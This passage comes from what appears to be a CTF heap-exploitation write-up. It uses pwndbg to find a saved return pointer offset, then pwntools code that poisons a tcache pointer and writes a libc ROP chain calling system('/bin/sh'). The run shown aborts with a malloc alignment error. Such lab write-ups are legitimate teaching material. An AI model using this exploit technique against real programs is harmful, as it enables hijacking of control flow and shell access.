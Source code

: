 Hmm that looks correct.

Let's attach a debugger and find out how off this is from the saved return pointer:

```
pwndbg> bt
#0  0x00007223829147e2 in __GI___libc_read (fd=0,
    buf=0x722382a1ab23 <_IO_2_1_stdin_+131>, nbytes=1)
    at ../sysdeps/unix/sysv/linux/read.c:26
#1  0x000072238288cc36 in _IO_new_file_underflow (
    fp=0x722382a1aaa0 <_IO_2_1_stdin_>) at ./libio/libioP.h:947
#2  0x000072238288dd96 in __GI__IO_default_uflow (
    fp=0x722382a1aaa0 <_IO_2_1_stdin_>) at ./libio/libioP.h:947
#3  0x00007223828630d0 in __vfscanf_internal (s=<optimized out>,
    format=<optimized out>, argptr=argptr@entry=0x7ffda98a36e0,
    mode_flags=mode_flags@entry=2) at ./stdio-common/vfscanf-internal.c:628
#4  0x0000722382862142 in __isoc99_scanf (format=<optimized out>)
    at ./stdio-common/isoc99_scanf.c:30
#5  0x000057a4a76774fd in db_menu ()
#6  0x000057a4a76779fc in main ()
#7  0x0000722382829d90 in __libc_start_call_main (
    main=main@entry=0x57a4a7677977 <main>, argc=argc@entry=1,
    argv=argv@entry=0x7ffda98a3908)
    at ../sysdeps/nptl/libc_start_call_main.h:58
#8  0x0000722382829e40 in __libc_start_main_impl (
    main=0x57a4a7677977 <main>, argc=1, argv=0x7ffda98a3908,
    init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>,
    stack_end=0x7ffda98a38f8) at ../csu/libc-start.c:392
#9  0x000057a4a7677115 in _start ()
pwndbg> search -t pointer 0x0000722382829d90
Searching for value: b'\x90\x9d\x82\x82#r\x00\x00'
[stack]         0x7ffda98a37f8 0x722382829d90
pwndbg> p/x 0x7ffda98a3918-0x7ffda98a37f8
$1 = 0x120
```

Ok let's use this data to create a ROP chain and write it to the actual saved return pointer:

```python
    log.info('stack leak @ %s' % hex(stack_leak))
    saved_return_pointer = stack_leak - 0x120
    update(1, p64( obfuscate(saved_return_pointer) ))
    rop = ROP(libc)
    rop.raw( rop.find_gadget(['ret']).address ) # Fix stack alignment
    rop.system(next(libc.search(b'/bin/sh\x00')))
    print(rop.dump())
    payload = rop.chain()
    create(1, 0x30, b'fake', 0x30, payload)

    # Trigger the ROP chain by departing from main()
    depart()
```

```
>>> malloc(): unaligned tcache chunk detected


[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

